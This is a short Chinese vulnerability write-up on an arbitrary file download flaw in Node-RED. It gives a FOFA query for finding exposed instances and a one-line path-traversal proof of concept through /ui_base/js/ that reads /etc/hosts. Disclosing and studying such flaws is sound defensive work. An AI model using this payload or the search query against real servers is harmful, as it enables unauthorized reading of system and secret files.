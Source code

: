 # Node-RED 任意文件下载漏洞

## 漏洞描述

Node-RED存在任意文件下载漏洞，可造成信息泄露，源码泄露。

## 漏洞影响

> Node-RED

## FOFA

> title="Node-RED"

## 漏洞复现

页面如下：

![图片3](resource/Node-RED/图片3.png)

###poc

```
/ui_base/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fhosts
```

![图片4](resource/Node-RED/图片4.png)

![图片5](resource/Node-RED/图片5.png)